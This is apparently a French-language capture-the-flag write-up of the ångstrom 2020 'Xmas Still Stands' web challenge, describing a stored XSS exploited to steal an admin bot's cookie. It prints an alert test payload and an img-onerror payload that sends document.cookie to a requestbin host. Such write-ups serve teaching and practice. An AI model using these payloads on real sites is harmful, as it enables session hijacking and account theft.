## Xmas Still Stands
> **DESCRIPTION**: You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?

Nous sommes redirigé vers un site visant à détruire Noël! Le site est composé de **4** onglets:
* **Home** -> Un simple message expliquant l'intérêt du site
* **Post** -> Une zone de texte permettant de donner des idées sur comment ruiner Noël
* **Report** -> Ici, nous pouvons renseigner l'ID d'un post à un administrateur afin qu'il aille en vérifier son contenu
* **Admin** -> Page d'administration inaccessible sans le cookie administrateur

Tout de suite, je pense à une XSS où il va falloir voler le cookie de l'administrateur. Pour ce faire, il faut trouver où est situé la XSS. Avec un simple payload `<img src=x onerror=alert('XSS');>` dans la zone de texte de l'onglet **Post**.  

![Challenge](/img/angstrom_2020_xmas_xss.png){: .center-image}
Sans surprise, l'alert apparaît.

Pour récupérer le cookie, il va falloir un hook sur lequel effectuer une requête contenant le cookie de l'administrateur. Pour cela, j'ai utiliser [requestbin](http://requestbin.net/).  
Le payload est triviale : `<img src=x onerror="this.src='http://requestbin.net/r/xxxxxxxx/?'+document.cookie; this.removeAttribute('onerror');">`.  
Une fois le post envoyé, on récupère son ID et on la renseigne dans l'onglet **Report** afin qu'un administrateur vienne jeter un oeil à notre post. On attend quelques secondes et une requête est effectué sur notre hook, avec dans l'URL, le **nom** et la **valeur** du cookie.  
